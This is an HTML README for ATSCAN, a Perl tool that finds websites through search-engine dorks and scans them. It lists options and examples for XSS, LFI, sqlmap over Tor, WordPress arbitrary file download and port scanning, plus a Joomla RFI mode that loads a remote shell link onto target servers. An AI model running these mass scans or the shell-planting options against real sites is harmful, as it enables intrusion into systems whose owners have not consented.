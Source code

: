 <html>
<body>
<h1 align="center">ATSCAN</h1>
<p align="center"> <b>Search / Site / Server Scanner </b></p>
<center><img src="http://i.imgur.com/jUt3Gn7.png" /></center>
<table border="0" cellpadding="2" cellspacing="2" width="100%">
  <tr>
    <td align="center"><b>Alisam Technology is not responsible for any misuse, damage caused by this script or attacking targets without prior mutual consent!<b></td>
  </tr>
</table>
<table border="0" cellpadding="0" cellspacing="2" width="100%">
  <tr>
    <td width="100px" class="main2"><b>AUTHOR:</b></td><td width="780px">Alisam@Technology</td>
  </tr>
  <tr>
    <td width="100px" class="main2"><b>FACE:</b></td><td>facebook.com/Forces.des.tempetes.marocaines </td>
  </tr>
  <tr>
    <td width="100px" class="main2"><b>YOUTUBE:</b></td><td>youtube.com/c/AlisamTechnology</td>
  </tr>
  <tr>
    <td width="100px" class="main2"><b>WITTER:</b></td><td>twitter.com/AlisamTechno</td>
  </tr>
  <tr>
    <td width="100px" class="main2"><b>PLUS:</b></td><td>plus.google.com/+AlisamTechnology</td>
  </tr>
</table>
<table border="0" cellpadding="2" cellspacing="5" width="100%">
  <tr>
    <td class="main3"><b>Description:</b></td>
  </tr>
  <tr>
    <td class="main" width="890px">ATSCAN <br /> SEARCH engine <br />XSS scanner. <br /> Sqlmap.<br /> 
        LFI scanner.<br /> Filter wordpress and Joomla sites in the server. <br />Find Admin page.<br /> Decode / Encode MD5 + Base64.
    </td>
  </tr>
</table>
<table border="0" cellpadding="2" cellspacing="5" width="100%">
  <tr>
    <td class="main3" width="890px"> <b>Libreries to install:</b></td>
  </tr>
  <tr>
    <td class="main">
      ap-get install libxml-simple-perl <br/>
      aptitude install libio-socket-ssl-perl <br/>
      aptitude install libcrypt-ssleay-perl <br/>
      NOTE: Works in linux platforms. Best Run on Ubuntu 14.04, Kali Linux 2.0, Arch Linux, Fedora Linux, Centos | if you use a windows you can download manualy.
    </td>
  </tr>
</table>
<table border="0" cellpadding="2" cellspacing="5" width="100%">
  <tr>
    <td class="main3" width="890px"><b>Download & Executution:</b></td>
  </tr>
  <tr>
    <td class="main">
      git clone https://github.com/AlisamTechnology/ATSCAN <br/>
      cd ATSCAN <br/>
      chmod +x ATSCAN <br/>
      ./ATSCAN <br/>
      OR <br/>
      $chmod +x atscan.pl  <br/>
      Execute: perl ./atscan.pl <br/>
      Execute: perl ./atscan.pl --help
    </td>
  </tr>
</table>
<table border="0" cellpadding="2" cellspacing="5" width="100%">
  <tr>
    <td class="main3"><b>Screenshots:</b></td>
  </tr>
  <tr>
    <td align="center" width="890px">
    <img src="http://i.imgur.com/J0fM1PB.jpg" /><br/><br/>
    <img src="http://i.imgur.com/JGBKRGw.jpg" /><br/><br/>
    <img src="http://i.imgur.com/HxdjrM8.jpg" /><br/><br/>
    <img src="http://i.imgur.com/yZOSiei.jpg" /><br/><br/>
    </td>
  </tr>
</table>
<table border="0" cellpadding="2" cellspacing="5" width="100%">
  <tr>
    <td class="main3" width="890px"><b>Help:</b></td>
  </tr>
  <tr>
    <td class="main"><table border="0" cellpadding="2" cellspacing="5" width="100%">
      <tr>
        <td width="200px" class="main">--tor</td>
        <td class="main">tor proxy [DEFAULT:socks://localhost:9050] Change if needed!</td>
      </tr>
      <tr>
         <td width="200px" class="main">--dork</td>
        <td class="main">Search engine</td>
      </tr>
      <tr>
        <td width="200px" class="main">--mp</td>
        <td class="main">set number of page results to scan</td>
      </tr>
      <tr>
        <td width="200px" class="main">--xss</td>
        <td class="main">Xss scan</td>
      </tr>
      <tr>
        <td width="200px" class="main">--lfi</td>
        <td class="main">lfi scan</td>
      </tr>
      <tr>
        <td width="200px" class="main">-t</td>
        <td class="main">Target</td>
      </tr>
      <tr>
        <td width="200px" class="main">-l</td>
        <td class="main">List name</td>
      </tr>
      <tr>
        <td width="200px" class="main">--exp</td>
        <td class="main">Set exploit</td>
      </tr>
      <tr>
        <td width="200px" class="main">--valid</td>
        <td class="main">Text for validate results</td>
      </tr>
      <tr>
        <td width="200px" class="main">--sqlmap</td>
        <td class="main">Sqlmaping xss results</td>
      </tr>
      <tr>
        <td width="200px" class="main">--sqlmaptor</td>
        <td class="main">Sqlmaping xss results using tor proxy</td>
      </tr>
      <tr>
        <td width="200px" class="main">--lfi</td>
        <td class="main">local file inclusion</td>
      </tr>
      <tr>
        <td width="200px" class="main">--joomrfi</td>
        <td class="main">get joomla sites with rfi in the server</td>
      </tr>
      <tr>
        <td width="200px" class="main">--shell</td>
        <td class="main">shell link [Ex: http://www.site.com/shell.txt]</td>
      </tr>
      <tr>
        <td width="200px" class="main">--wpadf</td>
        <td class="main">get wordpress sites with arbitery file download in the server</td>
      </tr>
      <tr>
        <td width="200px" class="main">--admin</td>
        <td class="main">get site admin page</td>
      </tr>
      <tr>
        <td width="200px" class="main">--shost</td>
        <td class="main">get site subdomains</td>
      </tr>
      <tr>
        <td width="200px" class="main">--ports</td>
        <td class="main">scan server ports</td>
      </tr>
      <tr>
        <td width="200px" class="main">--start</td>
        <td class="main">start scan port</td>
      </tr>
      <tr>
        <td width="200px" class="main">--end</td>
        <td class="main">end scan port</td>
      </tr>
      <tr>
        <td width="200px" class="main">--tcp</td>
        <td class="main">tcp ports</td>
      </tr>
      <tr>
        <td width="200px" class="main">--udp</td>
        <td class="main">udp ports</td>
      </tr>
      <tr>
        <td width="200px" class="main">--all</td>
        <td class="main">complete mode</td>
      </tr>
      <tr>
        <td width="200px" class="main">--basic</td>
        <td class="main">basic mode</td>
      </tr>
      <tr>
        <td width="200px" class="main">--select</td>
        <td class="main">Select mode you can set rang of ports</td>
      </tr>
      <tr>
        <td width="200px" class="main">--sites</td>
        <td class="main">sites in the server</td>
      </tr>
      <tr>
        <td width="200px" class="main">--wp</td>
        <td class="main">wordpress sites in the server</td>
      </tr>
      <tr>
        <td width="200px" class="main">--joom</td>
        <td class="main">joomla sites in the server</td>
      </tr>
      <tr>
        <td width="200px" class="main">--upload</td>
        <td class="main">get sites with upload files in the server</td>
      </tr>
      <tr>
        <td width="200px" class="main">--zip</td>
        <td class="main">get sites with zip files in the server</td>
      </tr>
      <tr>
        <td width="200px" class="main">--st</td>
        <td class="main">string</td>
      </tr>
      <tr>
        <td width="200px" class="main">--md5</td>
        <td class="main">convert to md5</td>
      </tr>
      <tr>
        <td width="200px" class="main">--encode64</td>
        <td class="main">encode base64 string</td>
      </tr>
      <tr>
        <td width="200px" class="main">--decode64</td>
        <td class="main">decode base64 string</td>
      </tr>
      <tr>
        <td width="200px" class="main">--isup</td>
        <td class="main">check http status 200</td>
      </tr>
      <tr>
        <td width="200px" class="main">--httpd</td>
        <td class="main">print site httpd version</td>
      </tr>
    </table></td>
  </tr>
</table>
<table border="0" cellpadding="2" cellspacing="5" width="100%">
  <tr>
    <td class="main3"><b>Examples:</b></td>
  </tr>
  <tr>
    <td class="main">
    <b>Simple search: </b><br/>
    --dork DORK --mp [number of page results to scan]<br/>
    --dork [DORK1,DORK2,DORK3..] --mp [number of page results to scan]<br/>
    --dork [DORK.txt] --mp [number of page results to scan from list]<br/><br/>
    <b>Subscan from Serach Engine: </b><br/>
    Xss: --dork DORK --mp 1 --xss<br/>
    Xss: --dork DORKS.TXT --mp 1 --xss <br/>
    Lfi: --dork DORK --mp 1 --lfi<br/>
    Search + Command: --dork DORK --mp VALUE --command 'curl -v' --TARGET<br/><br/>
    <b>Validation: </b><br/>
    Xss: --dork DORK --mp 1 --xss --valid TEXT <br/>
    Lfi: --dork DORK --mp 1 --lfi --valid TEXT <br/>
    Xss: --dork DORK --mp 1 --xss --isup <br/>
    Lfi: --dork DORK --mp 1 --xss --isup <br/>
    Xss: --dork DORKS.TXT --mp 1 --xss --valid TEXT <br/>
    Lfi: --dork DORKS.TXT --mp 1 --lfi --valid TEXT <br/>
    Xss: --dork DORKS.TXT --mp 1 --xss --isup <br/>
    Lfi: --dork DORKS.TXT --mp 1 --xss --isup <br/><br/>
    <b>Use List / Target: </b><br/>
    Xss: -t TARGET --xss <br/>
    Lfi: -l TARGET --lfi <br/>
    Xss + Validation: -t TARGET --xss --valid TEXT <br/>
    Lfi + Validation: -t TARGET --lfi --valid TEXT  <br/>
    Xss + Validation: -l list.txt --xss --isup <br/>
    Lfi + Validation: -l list.txt --lfi --isup  <br/>
    Find admin page: -t TARGET --admin  <br/>
    Find subdomains: -t TARGET --shost  <br/><br/>
    
    <b>Server: </b>  <br/>
    Get Server sites: -t IP --mp [VALUE] --sites   <br/>
    Get Server sites: -t IP.txt --mp [VALUE] --sites   <br/>
    Get Server wordpress sites: -t IP --mp [VALUE] --wp   <br/>
    Get Server joomla sites: -t IP --mp [VALUE] --joom   <br/>
    Get Server upload sites: -t IP --mp [VALUE] --upload   <br/>
    Get Server zip sites files: -t IP --mp [VALUE] --zip   <br/>
    WP Arbitry File Download: -t IP --mp [VALUE] --wpadf   <br/>
    Joomla RFI: -t IP --mp <1> --joomfri --shell SHELL LINK   <br/>
    Scan basic tcp (quick): -t IP --ports --basic --tcp   <br/>
    Scan basic udp basic (quick): -t IP --ports --basic --udp   <br/>
    Scan basic udp+tcp: -t IP --ports --basic --udp --tcp   <br/>
    Scan complete tcp: -t IP --ports --all --tcp   <br/>
    Scan complete udp: -t IP --ports --all --udp   <br/>
    Scan complete tcp+udp: -t IP --ports --all --udp --tcp   <br/>
    Scan rang tcp: -t IP --ports --select --start --end --tcp   <br/>
    Scan rang udp: -t IP --ports --select --start --end --udp   <br/>
    Scan rang udp + tcp: -t IP --ports --select --start VALUE --end VALUE --udp --tcp <br/><br/>
    <b>Encode / Decode:  </b> <br/>
    Generate MD5: -st STRING --md5 <br/>
    Encode base64: -st STRING --encode64  <br/> 
    Decode base64: -st STRING --decode64 
    </td>
  </tr>
</table>  
</body>
</html>
